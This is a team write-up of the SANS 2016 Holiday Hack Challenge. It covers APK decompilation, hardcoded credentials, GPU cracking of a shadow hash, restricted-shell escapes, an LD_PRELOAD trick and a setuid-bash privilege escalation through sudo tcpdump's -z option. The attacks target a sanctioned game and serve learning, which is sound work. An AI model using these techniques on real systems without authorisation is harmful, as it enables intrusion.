SANS 2016 Holiday Hack Writeup
Table of Contents
Introduction
We are the Cybersecurity team at the National Center for Supercomputing Applications. This year, we decided to collaborate as a team on this, and submit a single report. Comparing notes and chatting about the challenge quickly turned into sharing scripts, finds and dead ends. Then, that quickly turned into going down several rabbit holes, and being entirely too invested in the holiday fun. We also had some newcomers to the SANS Holiday Hack tradition this year, which was great.
We'll jump straight to the answers, and then go into some detail about how we got those answers. In some cases, once we've gotten the password or audio file, we proceed to dig even deeper, to do things like get command execution on a system, or reverse engineer a almost 40-year old game to generate a map. Feel free to skip those sections, unless you like cool hacks, of course.
Accompanying our submission is a GitHub repository of tools and scripts that we wrote as part of this.
We hope you enjoy, and we hope to see you next year.
Vlad Grigorescu, Warren Raquel, Justin Azoff
Answers
- What is the secret message in Santa's tweets? BUG BOUNTY
- What is inside the ZIP file distributed by Santa's team? An Android app called SantaGram, which the elves use for social media.
- What username and password are embedded in the APK file? guest/busyreindeer78
- What is the name of the audible component (audio file) in the SantaGram APK file? discombobulatedaudio1.mp3
- What is the password for the "cranpi" account on the Cranberry Pi system? yummycookies
How did you open each terminal door and where had the villain imprisoned Santa?
Terminal Method Doormat find command or running a normal bash WOPR Replaying scenes from War Games Wumpus Brute-force and reverse engineering tcpdump Using sudo to run commands as itchy Train Console Abusing less to view or run other files Which vulnerabilities did you target and exploit?
Server Vulnerability The Mobile Analytics Server (via credentialed login access) Hardcoded credentials in the APK The Dungeon Game Presented with binary, and game debugging tool is enabled The Debug Server JSON parameter manipulation The Banner Ad Server Meteor information disclosure The Uncaught Exception Handler Server PHP local file include and insufficient input sanitization The Mobile Analytics Server (post authentication) Git directory present which shows a logic error in edit.php What are the names of the audio files you discovered from each system above?
Server Audio File The Mobile Analytics Server (via credentialed login access) discombobulatedaudio2.mp3 The Dungeon Game discombobulatedaudio3.mp3 (via e-mail) The Debug Server debug-20161224235959-0.mp3 The Banner Ad Server discombobulatedaudio5.mp3 The Uncaught Exception Handler Server discombobulated-audio-6-XyzE3N9YqKNH.mp3 The Mobile Analytics Server (post authentication) discombobulatedaudio7.mp3 - Who is the villain behind the nefarious plot. Yes, Who is (and that isn't a question…)
- Why had the villain abducted Santa? Cause only Santa's magic and time travel could erase the existence of the 1978 Star Wars Holiday Special
Santa's Social Side #elfie
A close examination of Santa's card reveals a Twitter and Instagram username:
Figure 1: Santa's business card
If examining the card in the Dosis home, the chat text will make this a bit more obvious, displaying:
Santa W. Claus - Mass Toy Production & Worldwide Distribution Logistics North Pole • Twitter: @santawclaus - Instagram: @santawclaus
At first, Santa's tweets seem rather nonsensical, filled with tweets like:
SANTAELFHOHOHOCHRISTMASSANTACHRISTMASPEACEONEARTHCHRISTMASELFSANTAELFHOHOHO GOODWILLTOWARDSMENSANTAPEACEONEARTHHOHOHOJOYSANTAGOODWILLTOWARDSMENJOYJOYQQ GOODWILLTOWARDSMENGOODWILLTOWARDSMENJOYHOHOHOJOYELFELFPEACEONEARTHJOYHOHOHO
Writing a quick script to grab them all, however, reveals a pattern:
#!/usr/bin/env python from twitter import * from HTMLParser import HTMLParser import settings twitter = Twitter(auth=OAuth(settings.oauth_token, settings.oauth_token_secret, settings.consumer_key, settings.consumer_secret)) h = HTMLParser() max_id = 0 tweets = twitter.statuses.user_timeline(screen_name="santawclaus", count=100) while True: for tweet in tweets: print h.unescape(tweet['text']) max_id = tweet['id'] if len(tweets) < 100: break tweets = twitter.statuses.user_timeline(screen_name="santawclaus", count=100, max_id=max_id)
Converting the output a bit makes it easier to view the result:
a2ps -Bl 420 part1.out -o part1.ps convert -density 400 part1.ps -trim +repage -alpha remove -fill black twitter.png
Figure 2: Listing of Santa's tweets
A close inspection of the images on Santa's Instagram feed reveal two important clues: a filename and a website.

Figure 3: A suspicious photo on Santa's Instagram
Figure 4: A filename: SantaGram_v4.2.zip
Figure 5: A website: www.northpolewonderland.com
Indeed, visiting http://www.northpolewonderland.com/SantaGram_v4.2.zip gives us a zip file.
Curses! It's password protected. Trying a few variations of the message hidden in the tweets, the password can be discovered (bugbounty).
The ZIP file contains the SantaGram Android app (as an APK file).
Diving into the SantaGram app
For analyzing the APK, Shinny Upatree gives us the following hints:
<Shinny Upatree> - Hi, my name is Shinny Upatree. I'm one of Santa's bug bounty elves.
<Shinny Upatree> - I'm the newest elf on Santa's bug bounty team. I've been spending time reversing Android apps.
<Shinny Upatree> - Did you know Android APK files are just zip files? If you unzip them, you can look at the application files.
<Shinny Upatree> - Android apps written in Java can be reverse engineered back into the Java form using JadX.
<Shinny Upatree> - The JadX-gui tool is quick and easy to decompile an APK, but the jadx command-line tool will export the APK as individual Java files.
<Shinny Upatree> - Android Studio can import JadX's decompiled files. It makes it easier to understand obfuscated code.
<Shinny Upatree> - Take a look at Joshua Wright's presentation from HackFest 2016 on using Android Studio and JadX effectively.
The APK is just a zip of resources and compiled Java code. We can use jadx to decompile the APK, to make it more readable. We'll also unzip it, in case we need access to the raw resources:
jadx SantaGram_4.2.apk unzip SantaGram_4.2.apk -d SantaGram_4.2_apk_contents
Username and password
Question 3 tells us that there's at least one set of credentials in the APK file:
egrep --recursive --word-regexp --color '(username|password)' SantaGram_4.2
SantaGram_4.2/android/support/v4/j/a/c.java: stringBuilder.append("; password: ").append(k());
SantaGram_4.2/com/northpolewonderland/santagram/b.java: jSONObject.put("username", "guest");
SantaGram_4.2/com/northpolewonderland/santagram/b.java: jSONObject.put("password", "busyreindeer78");
SantaGram_4.2/com/northpolewonderland/santagram/Configs.java: public static String USER_USERNAME = "username";
SantaGram_4.2/com/northpolewonderland/santagram/Login.java: aVar.b((CharSequence) "We've sent you an email to
SantaGram_4.2/com/northpolewonderland/santagram/SplashScreen.java: jSONObject.put("username", "guest");
SantaGram_4.2/com/northpolewonderland/santagram/SplashScreen.java: jSONObject.put("password", "busyreindeer78");
SantaGram_4.2/com/parse/ParseRESTUserCommand.java: hashMap.put("username", str);
SantaGram_4.2/com/parse/ParseRESTUserCommand.java: hashMap.put("password", str2);
SantaGram_4.2/com/parse/ParseUser.java: private static final String KEY_PASSWORD = "password";
SantaGram_4.2/com/parse/ParseUser.java: private static final String KEY_USERNAME = "username";
SantaGram_4.2/com/parse/ParseUser.java: throw new IllegalArgumentException("Must specify a username for the user to log in with");
SantaGram_4.2/com/parse/ParseUser.java: throw new IllegalArgumentException("Must specify a password for the user to log in with");
SantaGram_4.2/com/parse/ParseUser.java: throw new IllegalArgumentException("Can't remove the username key.");
SantaGram_4.2/com/parse/ParseUser.java: final String username = currentUser.getUsername();
SantaGram_4.2/com/parse/ParseUser.java: final String password = currentUser.getPassword();
SantaGram_4.2/com/parse/ParseUser.java: if (username != null) {
SantaGram_4.2/com/parse/ParseUser.java: currentUser.setUsername(username);
SantaGram_4.2/com/parse/ParseUser.java: if (password != null) {
SantaGram_4.2/com/parse/ParseUser.java: currentUser.setPassword(password);
SantaGram_4.2/com/parse/ParseUser.java: throw new ParseException(-1, "Unable to saveEventually on a ParseUser with dirty password");
SantaGram_4.2/res/layout/login.xml: <EditText android:id="@id/usernameTxt" android:layout_width="match_parent" android:layout_height="
SantaGram_4.2/res/layout/login.xml: <EditText android:id="@id/passwordTxt" android:layout_width="match_parent" android:layout_height="
SantaGram_4.2/res/layout/login.xml: <Button android:textSize="12dp" android:textColor="#fff" android:id="@id/forgotPassButt" andro
SantaGram_4.2/res/layout/sign_up.xml: <EditText android:id="@id/passwordTxt2" android:layout_width="match_parent" android:layout_heigh
APK audio file
As we're looking for a resource, we'll search the unzipped contents of the APK (not the jadx decompilation) for files with an audio extension:
find SantaGram_4.2_apk_contents -iname '*.mp3' -or -iname '*.mp4' -or -iname '*.aac' -or -iname '*.flac' -or -iname '*.ogg'
SantaGram_4.2_apk_contents/res/raw/discombobulatedaudio1.mp3
And just like that, we have our first piece of the puzzle.
Easy Like Cranberry Pie
Once all the pieces of the Cranberry Pi have been found, Holly Evergreen will give you one more piece to look at: the Cranbian image. Let's get it mounted. First, we'll use fdisk to list the partitions:
fdisk -l /mnt/storage/sans/2016/part_1/cranbian-jessie.img
Disk /mnt/storage/sans/2016/part_1/cranbian-jessie.img: 1.3 GiB, 1389363200 bytes, 2713600 sectors Units: sectors of 1 * 512 = 512 bytes Sector size (logical/physical): 512 bytes / 512 bytes I/O size (minimum/optimal): 512 bytes / 512 bytes Disklabel type: dos Disk identifier: 0x5a7089a1 Device Boot Start End Sectors Size Id Type /mnt/storage/sans/2016/part_1/cranbian-jessie.img1 8192 137215 129024 63M c W95 FAT32 (LBA) /mnt/storage/sans/2016/part_1/cranbian-jessie.img2 137216 2713599 2576384 1.2G 83 Linux
We want to extract the Linux partition:
mkdir cranbian-jessie_mount dd if=cranbian-jessie.img of=cranbian-jessie.img2 skip=137216 count=2576384
2576384+0 records in 2576384+0 records out 1319108608 bytes (1.3 GB, 1.2 GiB) copied, 2.61149 s, 505 MB/s
file cranbian-jessie.img2
cranbian-jessie.img2: Linux rev 1.0 ext4 filesystem data, UUID=3598ef8e-09be-47ef-9d01-f24cf61dff1d (needs journal recovery) (extents) (large files)
Finally, we can mount it:
sudo mount -t ext4 -o loop,ro,noexec,noload cranbian-jessie.img2 cranbian-jessie_mount/

Figure 6: A different Cranbian image
Cracking the password
Poking around in the Cranbian image a bit, we can find a 'cranpi' account in /etc/passwd and /etc/shadow.
sudo grep cranpi etc/{group,passwd,shadow}
etc/group:adm:x:4:cranpi etc/group:dialout:x:20:cranpi etc/group:cdrom:x:24:cranpi etc/group:sudo:x:27:cranpi etc/group:audio:x:29:cranpi etc/group:video:x:44:cranpi etc/group:plugdev:x:46:cranpi etc/group:games:x:60:cranpi etc/group:users:x:100:cranpi etc/group:input:x:101:cranpi etc/group:netdev:x:108:cranpi etc/group:spi:x:999:cranpi etc/group:i2c:x:998:cranpi etc/group:gpio:x:997:cranpi etc/group:cranpi:x:1000: etc/passwd:cranpi:x:1000:1000:,,,:/home/cranpi:/bin/bash etc/shadow:cranpi:$6$2AXLbEoG$zZlWSwrUSD02cm8ncL6pmaYY/39DUai3OGfnBbDNjtx2G99qKbhnidxinanEhahBINm/2YyjFihxg7tgc343b0:17140:0:99999:7:::
The shadow file contains a password hash for the cranpi account. We can use the rockyou wordlist to try to bruteforce the hash.
Minty Candycane suggests using John the Ripper to crack password hashes. However, we've got better things to do with our time. Let's use ocl-hashcat, which will use GPU cracking:
sudo /opt/oclhashcat-plus-bin/cudaHashcat64.bin -m 1800 -a 0 --remove cranpi_shadow /opt/oclhashcat-plus-bin/rockyou.txt
cudaHashcat v2.01 starting... Device #1: GeForce GTX 650, 2047MB, 1058Mhz, 2MCU Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702 Hashes: 1 hashes; 1 unique digests, 1 unique salts Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates Rules: 1 Applicable Optimizers: * Zero-Byte * Single-Hash * Single-Salt Watchdog: Temperature abort trigger set to 90c Watchdog: Temperature retain trigger set to 80c Device #1: Kernel /opt/oclhashcat-plus-bin/kernels/4318/m01800.sm_30.64.cubin Device #1: Kernel /opt/oclhashcat-plus-bin/kernels/4318/amp_a0_v1.sm_30.64.cubin Cache-hit dictionary stats /opt/oclhashcat-plus-bin/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace $6$2AXLbEoG$zZlWSwrUSD02cm8ncL6pmaYY/39DUai3OGfnBbDNjtx2G99qKbhnidxinanEhahBINm/2YyjFihxg7tgc343b0:yummycookies Session.Name...: cudaHashcat Status.........: Cracked Input.Mode.....: File (/opt/oclhashcat-plus-bin/rockyou.txt) Hash.Target....: $6$2AXLbEoG$zZlWSwrUSD02cm8ncL6pmaYY/39DU... Hash.Type......: sha512crypt, SHA512(Unix) Time.Started...: Sat Dec 24 17:14:15 2016 (2 mins, 17 secs) Speed.GPU.#1...: 3327 H/s Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts Progress.......: 454860/14343296 (3.17%) Rejected.......: 204/454860 (0.04%) Restore.Point..: 453836/14343296 (3.16%) HWMon.GPU.#1...: -1% Util, 55c Temp, 34% Fan Started: Sat Dec 24 17:14:15 2016 Stopped: Sat Dec 24 17:16:46 2016
Once we tell Holly Evergreen that the password is yummycookies, we can now use the Cranberry Pi on the terminals.
Behind Door #1
Directory
Pulling up the terminal tells us:
To open the door, find the passphrase file deep in the directories.
Let's run a quick find to see what we're working with. We'll list only files (and not directories).
find . -type f
./.bashrc ./.doormat/. / /\/\\/Don't Look Here!/You are persistent, aren't you?/'/key_for_the_door.txt ./.profile ./.bash_logout
Looks promising, so let's go ahead and look at that file:
find . -name key_for_the_door.txt -exec cat {} \;
key: open_sesame
- Digging Deeper
Let's take a closer look at this one. Interacting with this system, we see that the shell isn't behaving quite right. Most importantly, tab completion doesn't work.
ps x
PID TTY STAT TIME COMMAND 1 ? Ss 0:00 /bin/bash --noediting
Bash is started with an interesting option:
--noediting. From the man page:--noediting Do not use the GNU readline library to read command lines when the shell is interactive.Not using readline causes tab-completion not to work, as well as many other bash shortcuts. The key for the door is hidden in some directories that need escaping (which tab-completion handles for you).
To not have to do that manually, an easier solution is just to run bash from within the noediting bash, and then savor that sweet, sweet tab completion.
War Games
Connecting to this terminal just gives us a prompt of:
GREETINGS PROFESSOR FALKEN.
Matthew Broderick fans (or those who are willing to do some searching) recognize this as a quote from the movie War Games. Simply replaying the dialogue from the movie gives us the password.
Note: Prompts are in blue, and our replies are in gray.
Hello.
HOW ARE YOU FEELING TODAY?
I'm fine. How are you?
EXCELLENT, IT'S BEEN A LONG TIME. CAN YOU EXPLAIN THE REMOVAL OF YOUR USER ACCOUNT ON 6/23/73?
People sometimes make mistakes.
YES THEY DO. SHALL WE PLAY A GAME?
Love to. How about Global Thermonuclear War?
WOULDN'T YOU PREFER A GOOD GAME OF CHESS?
Later. Let's play Global Thermonuclear War.
FINE
,------~~v,_ _ _--^\
|' \ ,__/ | _/ /,_ _
/ \,/ / ,, _,,/^ v v-___
| / |'~^ \
\ | _/ _ _/^
\ / / ,~~^/ |
^~~_ _ _ / | __,, _v__\ \/
'~~, , ~ \ \ ^~ / ~ //
\/ \/ \~, ,/
~~
UNITED STATES SOVIET UNION
WHICH SIDE DO YOU WANT?
1. UNITED STATES
2. SOVIET UNION
PLEASE CHOOSE ONE:
2
AWAITING FIRST STRIKE COMMAND ----------------------------- PLEASE LIST PRIMARY TARGETS BY CITY AND/OR COUNTRY NAME:
Las Vegas
LAUNCH INITIATED, HERE'S THE KEY FOR YOUR TROUBLE: LOOK AT THE PRETTY LIGHTS
Wumpus
On this terminal, the banner is:
Find the passphrase from the wumpus. Play fair or cheat; it's up to you.
Clearly we should cheat.
find . -ls
12 4 drwxr-xr-x 2 elf elf 4096 Dec 12 21:52 . 103 4 -rw-r--r-- 1 elf elf 3926 Dec 12 21:52 ./.bashrc 116 28 -rwxr-xr-x 1 root root 27680 Dec 5 23:32 ./wumpus 102 4 -rw-r--r-- 1 elf elf 675 Nov 12 2014 ./.profile 117 4 -rw-r--r-- 1 elf elf 220 Nov 12 2014 ./.bash_logout
./wumpus
Instructions? (y-n) y Sorry, but the instruction file seems to have disappeared in a puff of greasy black smoke! (poof) You're in a cave with 20 rooms and 3 tunnels leading from each room. There are 3 bats and 3 pits scattered throughout the cave, and your quiver holds 5 custom super anti-evil Wumpus arrows. Good luck. You are in room 16 of the cave, and have 5 arrows left. *rustle* *rustle* (must be bats nearby) *whoosh* (I feel a draft from some pits). There are tunnels to rooms 3, 9, and 12. Move or shoot? (m-s) m3 You are in room 3 of the cave, and have 5 arrows left. *whoosh* (I feel a draft from some pits). There are tunnels to rooms 10, 14, and 16. Move or shoot? (m-s) s10 You are in room 3 of the cave, and have 4 arrows left. *whoosh* (I feel a draft from some pits). There are tunnels to rooms 10, 14, and 16. Move or shoot? (m-s) q
- Brute-force
Looking at the strings in the data section of the wumpus executable doesn't show an obvious passphrase.
The game seems to rely heavily on randomness. One thing that we can do is just try shooting our 5 arrows into rooms 1-5, and hope that we get lucky and hit the Wumpus.
printf "n\ns1\ns2\ns3\ns4\ns5\n" | ./wumpus
Instructions? (y-n) <snip> You are in room 6 of the cave, and have 5 arrows left. <snip> You are in room 6 of the cave, and have 4 arrows left. <snip> You are in room 6 of the cave, and have 3 arrows left. <snip> You are in room 6 of the cave, and have 2 arrows left. <snip> You are in room 6 of the cave, and have 1 arrow left. <snip> You turn and look at your quiver, and realize with a sinking feeling that you've just shot your last arrow (figuratively, too). Sensing this with its psychic powers, the evil Wumpus rampagees through the cave, finds you, and with a mighty *ROAR* eats you alive!
Well, that didn't work. Let's try running that 50 times, and looking for strings that didn't show up in the data section. We'll also remove the 'You are in room X' messages.
strings --data wumpus > wumpus.strings for i in $(seq 50) do printf "n\ns1\ns2\ns3\ns4\ns5\n" | ./wumpus | grep --invert-match --file=wumpus.strings | grep --invert-match room done | sort | uniq
(*CHOMP*) *Thwack!* A sudden piercing feeling informs you that the ricochet *rustle* *rustle* (must be bats nearby) *sniff* (I can smell the evil Wumpus nearby!) *thwock!* *groan* *crash* *whoosh* (I feel a draft from some pits). There are 3 bats and 3 pits scattered throughout the cave, and your WUMPUS IS MISUNDERSTOOD quiver holds 5 custom super anti-evil Wumpus arrows. Good luck. you, and with a mighty *ROAR* eats you alive!
WUMPUS IS MISUNDERSTOODstands out, and it turns out that that is the passphrase. - Static Analysis
We were able to brute-force the password, but we don't really feel good about that solution. It's based on luck, and it feels like there's a better solution out there.
Let's start by getting a local copy of the executable. Since the Docker container we're connected to doesn't have Internet access, we need to use copy-paste and get a little creative:
gzip -c wumpus | base64 --wrap=0; echo
H4sICA75RVgAA3d1bXB1cwCsWgt4FFWWrk5SEAKhAyQKCFKMoAmSB+EhJCAJ0Fo4gAgG8YFJ06kkvXS62u4qkrAkwWkyS00RJz <snip> 1f5HVMy3iPWOl/runR/8hHFHSTP6a1ov//BvEszzYgbAAA
We can take that output and recover the original file with:
echo "H4sICA75RVgAA3d1bXB1cwCsWgt4FFWWrk5SEAKhAyQKCFKMoAmSB...EszzYgbAAA" | base64 --decode | gzip --decompress > wumpus
Poking around in the disassembly a bit, we see an interesting getopt call:
=--------------------------------------------------------------------------------------------= | 0x400e92 ;[c] | | | mov rcx, qword [rbp - local_30h] | | | mov eax, dword [rbp - local_24h] | | | mov edx, str.a:b:hp:r:t: | | | mov rsi, rcx | | | mov edi, eax | | | call sym.imp.getopt ;[e]; int getopt(int argc, const char **argv, const char *optstring); | | mov dword [rbp - local_14h], eax | | | cmp dword [rbp - local_14h], -1 | | | jne 0x400d50 ;[f] | | =--------------------------------------------------------------------------------------------=
From the getopt man page:
The option string optstring may contain the following elements: individual characters, and characters followed by a colon to indicate an option argument is to follow. For example, an option string "x" recognizes an option ``-x'', and an option string "x:" recognizes an option and argument ``-x argument''.
Our optstring is
a:b:hp:r:t:, so we know that we have parameters a, b, p, r, and t which take an argument. Messing around with those parameters a bit reveals that they set the number of arrows, bats, pits, rooms, and tunnels:printf 'n\n' | ./wumpus -a 1 -b 2 -p 4 -r 8 -t 3
Instructions? (y-n) You're in a cave with 8 rooms and 3 tunnels leading from each room. There are 2 bats and 4 pits scattered throughout the cave, and your quiver holds 1 custom super anti-evil Wumpus arrows. Good luck.
We can use these parameters to improve our odds.
- LD_PRELOAD randomness removal
We have one last trick that we can use to cheat. While playing with sending commands to the game via a pipe it was noticed that the game layout appeared to only change once each second. This is an indication that the code is doing something like
srand(time(NULL))to initialize the random seed.We can
LD_PRELOADa library that disablessrandin order to cause the game layout to always be the same.LD_PRELOADwill load our library, which will always seed the random number generator with the same number. Once this is done, we can run the game with a small number of rooms and figure out which room to shoot the arrow into that will cause us to win 100% of the time:int rand_r(unsigned int *seed) { return 42; } void srand(unsigned int seed) { return; } void srandom(unsigned int seed) { return; }
gcc -o srand.so -ldl -shared -fPIC srand.c cat srand.so | gzip | base64 -w 0H4sIAPVsbVgAA8VYXWwcRRKu2V3bu7...9r2lknU//o32veuXW/RMIFZQ8fxOLAP6uNHIqT9TLtD/y01KF+HfgHIhktduBcAAA==
Then, on the remote side:
echo H4sIAPVsbVgAA8VYXWwcRRKu2V3bu7...9r2lknU//o32veuXW/RMIFZQ8fxOLAP6uNHIqT9TLtD/y01KF+HfgHIhktduBcAAA== | base64 -d | gzip -d > srand.so printf "n\ns 4\nn\n" | LD_PRELOAD=`pwd`/srand.so ./wumpus -a 1 -r 6 -t 3
Instructions? (y-n) You're in a cave with 6 rooms and 3 tunnels leading from each room. There are 3 bats and 3 pits scattered throughout the cave, and your quiver holds 1 custom super anti-evil Wumpus arrows. Good luck. You are in room 6 of the cave, and have 1 arrow left. *rustle* *rustle* (must be bats nearby) *whoosh* (I feel a draft from some pits). *sniff* (I can smell the evil Wumpus nearby!) There are tunnels to rooms 1, 3, and 5. Move or shoot? (m-s) *thunk* The arrow can't find a way from 6 to 4 and flys randomly into room 5! *thwock!* *groan* *crash* A horrible roar fills the cave, and you realize, with a smile, that you have slain the evil Wumpus and won the game! You don't want to tarry for long, however, because not only is the Wumpus famous, but the stench of dead Wumpus is also quite well known, a stench plenty enough to slay the mightiest adventurer at a single whiff!! Passphrase: WUMPUS IS MISUNDERSTOOD Care to play another game? (y-n)
No more games for us, thanks. No need to beat a dead wumpus.
Itchy and Scratchy
To open the door, find both parts of the passphrase inside the /out.pcap file
We need to find the password hidden in the PCAP. Sounds easy enough…
ls -l /out.pcap
-r-------- 1 itchy itchy 1087929 Dec 2 15:05 /out.pcap
scratchy@c35b2f66b468:/$ id
uid=1001(scratchy) gid=1001(scratchy) groups=1001(scratchy)
Well, we can't access the file, since it's owned by a different user, and not readable by anyone else. Can we do anything fun with sudo?
sudo -l
Matching Defaults entries for scratchy on c35b2f66b468:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User scratchy may run the following commands on c35b2f66b468:
(itchy) NOPASSWD: /usr/sbin/tcpdump
(itchy) NOPASSWD: /usr/bin/strings
We're able to run two commands as itchy, so let's see what we can do with that. We can run strings, and sort by the length of the string, assuming those will be the most interesting:
sudo --user=itchy /usr/bin/strings /out.pcap | awk '{ print length() " " $0; }' | sort --numeric-sort | tail
36 TDate: Fri, 02 Dec 2016 11:28:00 GMT
38 Content-type: application/octet-stream
38 OServer: SimpleHTTP/0.6 Python/2.7.12+
38 TServer: SimpleHTTP/0.6 Python/2.7.12+
38 User-Agent: Wget/1.17.1 (darwin15.2.0)
38 User-Agent: Wget/1.17.1 (darwin15.2.0)
44 Last-Modified: Fri, 02 Dec 2016 11:26:12 GMT
45 PLast-Modified: Fri, 02 Dec 2016 11:25:35 GMT
53 <input type="hidden" name="part1" value="santasli" />
315 3{"host_int": 266670160730277518981342002975279884847, "version": [2, 0], "displayname": "",
"port": 17500, "namespaces": [1149071040, 1139770785, 1357103393, 1296963687, 1139786665,
1261247053, 1331126254, 1179166992, 1210559602, 1261612467, 1223790038, 1234538553, 1304191898,
1246301403, 1056298300, 1207374239]}
Part 1 is santasli. We could've gotten this with tcpdump, so it's a bit suspicious that strings is also included in our sudo permissions. Let's use strings to search for unicode (16-bit littleendian) data:
sudo -u itchy /usr/bin/strings --encoding=l /out.pcap
part2:ttlehelper
Bingo. santaslittlehelper.
- Digging Deeper
Let's retrieve the PCAP, in case there's some easter eggs hidden in there.
Getting access to the PCAP directly is a bit tricky. We can use
tcpdumphave it read in the PCAP, and have it write it out to standard output. In order to download it, we could use a similar technique to what we used for wumpus, but the PCAP is much bigger and a bit annoying to copy/paste. A Python script to directly connect to the websocket will work:#!/usr/bin/env python from socketIO_client import SocketIO, BaseNamespace, WebsocketTransport import sys import logging import time logging.basicConfig() MARKER = 'XXXX EXIT' MARKER_CMD = "echo XXXX EXIT" DIVIDER='X-X-X-X-X-X-X-X-X-X-X-X-X' class Namespace(BaseNamespace): buf = '' def on_output(self, data): self.buf += data if MARKER in data: print self.buf.split("\n" + DIVIDER)[1] sys.exit(0) def go(port=60001): socketIO = SocketIO('https://docker2016.holidayhackchallenge.com', port, Namespace, resource='wetty/socket.io',verify=False) cmd = ' '.join(sys.argv[2:]) def send(s): socketIO.emit('input', s + '\r\n') send("echo {};{};echo {}".format(DIVIDER, cmd, DIVIDER)) send(MARKER_CMD) while True: socketIO.wait(.1) if __name__ == "__main__": try: port = int(sys.argv[1]) except: port = 60001 go(port)
./tty_oneshot.py 60002 'sudo -u itchy tcpdump -n -r /out.pcap -w - 2>/dev/null | base64' | base64 -d > out.pcap
For all that, though, we couldn't find anything in the PCAP.
To be thorough, let's escalate our privileges to itchy, and see if there's anything hidden on the system. First, we'll create a script that copies /bin/bash, but makes it setuid. Then we'll run tcpdump as itchy, and have tcpdump execute our script when it's done.
cd cat << EOF > exec.sh #!/bin/bash cp /bin/bash /tmp/bash chmod +s /tmp/bash EOF chmod +x exec.sh sudo -u itchy /usr/sbin/tcpdump -C 1 -r /out.pcap -w /tmp/out.pcap -z ./exec.sh ls -la /tmp/bash
-rwsr-sr-x 1 itchy itchy 1029624 Jan 3 19:51 /tmp/bash
Now we can run our new bash, and it will change our effective user and group ids to itchy's. Of note is that bash needs a certain flag in order to not reset our effective ids:
If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
/tmp/bash -p -c id
uid=1001(scratchy) gid=1001(scratchy) euid=1000(itchy) egid=1000(itchy) groups=1000(itchy)
Unfortunately, we didn't find anything else hidden on this system.
Train Console
We're dropped into a train management console shell script. Once we release the brake, we need a password to start the train. If we view the help document, we're dropped into less. Pressing h gives us a summary of less commands. Two interesting ones stand out:
:e [file] Examine a new file. !command Execute the shell command with $SHELL.
We can type !/bin/bash to get into a shell. In the home directory, we have a few files for the Train Management Console:
Train_Consoleis the script which was originally running, and which has the password (24fb3e89ce2aa0ea422c3d511d40dd84) hardcoded.TrainHelper.txtis the help file that we were viewing in less.ActivateTrainis a binary which uses ourQUEST_UIDto POST a request to 10.240.0.19 and teleports us in the game. Next time we use this console, we can just run!./ActivateTrainfrom less, and we'll be on our way.
Santa's Servers
The APK has references to six URLs:
grep -r url SantaGram_4.2 | grep northpolewonderland.com
res/values/strings.xml: <string name="analytics_launch_url">https://analytics.northpolewonderland.com/report.php?type=launch</string> res/values/strings.xml: <string name="analytics_usage_url">https://analytics.northpolewonderland.com/report.php?type=usage</string> res/values/strings.xml: <string name="banner_ad_url">http://ads.northpolewonderland.com/affiliate/C9E380C8-2244-41E3-93A3-D6C6700156A5</string> res/values/strings.xml: <string name="debug_data_collection_url">http://dev.northpolewonderland.com/index.php</string> res/values/strings.xml: <string name="dungeon_url">http://dungeon.northpolewonderland.com/</string> res/values/strings.xml: <string name="exhandler_url">http://ex.northpolewonderland.com/exception.php</string>
Once we check with Tom Hessman to confirm that those 5 systems are in scope, Minty Candycane gives us a clue on what to do next:
I've been spending a lot of time with NMAP. It is such a great port scanner! I'm very thorough so I check all the TCP ports to look for extra services.
nmap is cool, but I like masscan even better for things like this:
masscan -p0-65535,U:0-65535 --includefile targets --rate 5000
